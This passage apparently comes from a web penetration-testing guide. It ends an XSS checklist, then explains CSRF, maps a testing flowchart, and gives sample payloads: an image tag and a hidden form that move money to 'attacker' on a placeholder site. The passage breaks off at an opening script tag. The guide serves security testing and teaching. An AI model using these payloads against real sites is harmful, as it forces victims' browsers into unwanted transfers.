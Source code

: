 2. **Payload Testing**
   - Basic script tags
   - Event handlers
   - JavaScript URLs
   - Data URIs

3. **Context Analysis**
   - HTML context
   - Attribute context
   - JavaScript context
   - CSS context

---

## 🔒 CSRF (Cross-Site Request Forgery)

### Overview
CSRF attacks force authenticated users to execute unwanted actions on web applications where they're authenticated.

### CSRF Attack Flowchart

```mermaid
flowchart TD
    A[Start CSRF Testing] --> B[Identify State-Changing Actions]
    B --> C[Check CSRF Protection]
    C --> D{CSRF Token Present?}
    D -->|No| E[Craft Malicious Request]
    D -->|Yes| F[Test Token Validation]
    F --> G{Token Properly Validated?}
    G -->|No| H[Bypass Token Validation]
    G -->|Yes| I[Test SameSite Cookies]
    H --> E
    I --> J{SameSite Protection?}
    J -->|No| E
    J -->|Yes| K[Test Referer Header]
    K --> L{Referer Validation?}
    L -->|No| E
    L -->|Yes| M[Document Protection]
    E --> N[Create PoC]
    N --> O[Test Attack]
    O --> P{Attack Successful?}
    P -->|Yes| Q[Impact Assessment]
    P -->|No| R[Refine Attack]
    R --> O
    Q --> S[Report Generation]
    M --> S
```

### CSRF Attack Examples

```html

<img src="http://vulnerable-site.com/transfer?amount=1000&to=attacker" />


<form action="http://vulnerable-site.com/transfer" method="POST">
    <input type="hidden" name="amount" value="1000" />
    <input type="hidden" name="to" value="attacker" />
    <input type="submit" value="Click me!" />
</form>


<script>
```
